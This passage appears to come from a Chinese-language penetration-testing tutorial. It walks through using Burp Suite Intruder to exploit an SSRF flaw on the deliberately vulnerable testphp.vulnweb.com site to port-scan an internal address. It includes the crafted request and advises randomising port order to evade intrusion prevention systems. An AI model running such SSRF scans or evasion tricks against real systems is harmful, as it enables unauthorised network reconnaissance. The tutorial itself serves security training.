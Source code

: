 1.  扫描应用程序后，Burp Suite 检测到 URL（[`testphp.vulnweb.com/showimage.php`](http://testphp.vulnweb.com/showimage.php)）对 SSRF 存在漏洞。这个 PHP 文件接受 URL 作为参数，如下行所示：

```
http://testphp.vulnweb.com/showimage.php?file=http://192.168.0.1:80
```

1.  要执行自动端口扫描，我们可以使用 Intruder。首先，停止请求，并将其发送到 Intruder，如下面的屏幕截图所示：

![](img/66226f38-91db-48dd-9b1d-1464636571f5.png)

1.  清除默认创建的通配符，并按照您自己的方式添加一个新的，如下面的屏幕截图所示：

```
GET /showimage.php?file=http://192.168.0.1:port HTTP/1.1 
Host: testphp.vulnweb.com 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: close 
Cookie: login=test%2Ftest 
Upgrade-Insecure-Requests: 1 
```

现在，您可以将您的有效负载定义为一个列表，从 0 到 65,535，并选择随机选项。为什么？因为一些**入侵防护系统**（IPS）会检测对同一 IP 的顺序请求，因此通过使用随机选项，我们可以尝试避免被检测到：
